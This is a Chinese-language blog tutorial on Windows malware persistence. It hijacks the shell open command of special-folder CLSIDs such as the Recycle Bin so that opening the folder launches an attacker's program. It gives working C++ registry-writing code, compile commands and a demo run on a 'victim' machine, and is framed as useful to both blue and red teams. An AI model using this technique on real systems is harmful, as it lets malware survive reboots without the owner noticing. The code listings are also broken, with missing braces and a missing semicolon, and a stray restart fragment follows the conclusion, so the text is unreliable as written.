\newpage
\subsection{恶意软件开发：持久化（第 21 部分）——回收站、我的文档 COM 扩展处理程序（简单的 C++ 示例）}

﷽

{width="80%"}

这篇文章基于我自己对一个比较有趣的恶意软件持久化技巧的研究：通过修改回收站的 COM 扩展处理程序实现持久化。

### CLSID 列表

操作系统中的某些特殊文件夹由唯一的字符串标识：

`\{20d04fe0-3aea-1069-a2d8-08002b30309d\}` —— 我的电脑

`\{450d8fba-ad25-11d0-98a8-0800361b1103\}` —— 我的文档

`\{208d2c60-3aea-1069-a2d7-08002b30309d\}` —— 网上邻居

`\{1f4de370-d627-11d1-ba4f-00a0c91eedba\}` —— 网络计算机

`\{2227a280-3aea-1069-a2de-08002b30309d\}` —— 打印机和传真

`\{645ff040-5081-101b-9f08-00aa002f954e\}` —— 回收站

向 CLSID 添加 `open\command` 子项，并为 shell 项添加一个新的动词，就会执行存储在 `\command` 条目中的值。

我们来看一个实战示例。

为了简单起见，和往常一样，它是一个 meow-meow 消息框应用程序（`hack.cpp`）：

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;

```

然后，只需创建持久化脚本（`pers.cpp`）：

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\\shell";

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
  if (res == ERROR_SUCCESS) {
  // update registry key value
  // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command”
  // /ve /t REG_SZ /d "hack.exe" /f
  // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
  RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
  RegCloseKey(hkR);
  // RegCloseKey(hkey);
  }
  RegCloseKey(hkey);
  }
  return 0;

```

如你所见，逻辑很简单。

### 演示

我们来看看一切的实际运行。

```powershell
reg query 
"HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" 
/s
```

{width="80%"}

然后，在攻击者的机器上（kali）编译我们的「恶意软件」：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

为了检查正确性，试着在受害者的机器上（我的例子是 Windows 10 x64）运行 `hack.exe`：

```powershell
.\hack.exe
```

{width="80%"}

如你所见，我们的「恶意软件」运行完美。

下一步，在攻击者的机器上编译我们的持久化脚本：

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

最后，在受害者的机器上运行这个持久化脚本，并再次检查注册表：

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" /s
```

{width="80%"}

所以，如你所见，子项已被添加，项值也已设置。

然后，试着打开回收站：

{width="80%"}

{width="80%"}

如果我们打开 Process Explorer 并查看 `hack.exe` 的属性：

{width="80%"}

我们可以注意到它的父进程是 `explorer.exe`（1680）。

完美！=..=

那么列表中的其他 CLSID 呢？

我对持久化脚本做了一点小改动：

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{450d8fba-ad25-11d0-98a8-0800361b1103}\\shell"

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
  if (res == ERROR_SUCCESS) {
  // update registry key value
  // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\
  // {450d8fba-ad25-11d0-98a8-0800361b1103}\shell\open\command”
  // /ve /t REG_SZ /d "hack.exe" /f
  // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, 
  // (unsigned char*)exe, strlen(exe));
  RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
  RegCloseKey(hkR);
  // RegCloseKey(hkey);
  }
  RegCloseKey(hkey);
  }
  return 0;

```

在受害者的机器上编译并运行：

```powershell
.\pers.exe
reg query 
"HKLM\SOFTWARE\Classes\CLSID\
{450d8fba-ad25-11d0-98a8-0800361b1103}\shell" /s
```

{width="80%"}

但是……在 Windows 10 上对我不管用，因为它们用的是那个愚蠢的开始菜单，我在桌面上找不到「我的文档」文件夹这个特性。

我还在 Windows 7 x86 机器上用另一个 CLSID 试了这个技巧。

{width="80%"}

{width="80%"}

它对「我的电脑」文件夹有效。

我不知道是否有任何 APT 组织或恶意软件家族应用过这个技巧。

我希望这篇文章能让蓝队成员了解这个有趣的技巧，并为红队成员的武器库增添一件武器。

### 实战示例

首先，和往常一样，创建「恶意」应用程序。

首先，检查注册表：
